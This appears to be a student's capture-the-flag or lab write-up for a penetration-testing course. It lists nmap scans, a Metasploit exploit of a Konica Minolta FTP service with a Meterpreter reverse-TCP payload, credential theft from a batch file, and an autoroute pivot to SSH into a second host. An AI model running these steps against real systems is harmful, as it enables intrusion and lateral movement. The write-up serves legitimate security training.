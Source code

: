# Assigment 1
For full executive report, see [PWNChallenge1_GabriellaAhn](https://github.com/haein001/CMU_penetration-testing/blob/69735350464e7b4b88eede348b337de66701a3e0/pwnchallenge1/PWNChallenge1_GabriellaAhn.pdf).

## Step 1
1. Scan the host for open ports.

    ``
    nmap -open 10.20.160.10-150
    ``
    
    ``
    nmap -open 10.20.170.20-100
    ``

    10.20.160.41 host is found from 10.20.160.10-150.

2. Conduct more thorough scan of 10.20.160.41.
   
    ``
    nmap --A 10.20.160.41
    ``
    
    Port 21 is an open port for FTP from version of Konica Minolta FTP Utility. 
    
3. Open Metasploit.

    ``
    msfconsole
    ``
    
4. Since we are going to use _Konica Minolta FTP Utility_ to exploit the host, serach Konica. Use the exploit from the search result.

    ``
    search Konica
    ``
    
    ``
    use exploit/windows/ftp/kmftp_utility_cwd
    ``
   
5. Set rhost, rport, and payload.
    
    ``
    set RHOST 10.20.160.41
    ``
    
    ``
    set RPORT 21
    ``
    
    ``
    set PAYLOAD windows/meterpreter/reverse_tcp
    ``

6. Then, exploit

    ``
    exploit
    ``
    
7. Now you are in the system. Use various command to look for the flag.

    ``
    search -f proof.txt
    ``

8. In C:\Users\Fred\Desktop. there is SSH.bat which looks strange. Open the file.

    ``
    cat SSH.bat
    ``
    
    ![image](https://github.com/haein001/CMU_penetration-testing/assets/77334059/5c0d8d0e-f2cc-4c4c-ad79-2247619e3a0d)

9. Using this we are going to compromise the other host. In order to add route from present session, use autoroute.

- **autoroute:** is used to add routes associated with the specified Meterpreter session to Metasploit's routing table. These routes can be used to pivot to private networks and resources that can be accessed by the compromised machine.

    It will make my current session into background session.

    ``
    run autoroute -s 10.20.170.0
    ``
    
    ``
    run autoroute -p
    ``
    
    ``
    background
    ``
    
10.  Search ssh_login, to use the information from the SSH.bat.
    
    ``
    search ssh_login
    ``
    
11. Set the basic information for the exploit.

    ``
    use auxiliary/scanner/ssh/ssh_login
    ``
    
    ``
    set USERNAME jill
    ``
    
    ``
    set PASSWORD JillIs100%Awesome
    ``
    
    ``
    set rhost 10.20.170.87
    ``
    
    ``
    exploit
    ``

12.  After succesfully logging into the machine, check the session you are in and go to the new session that is created.

     ``
    sessions -i
    sessions -i (number)
    ``

13.  Then, use linux command to search the proof.txt.

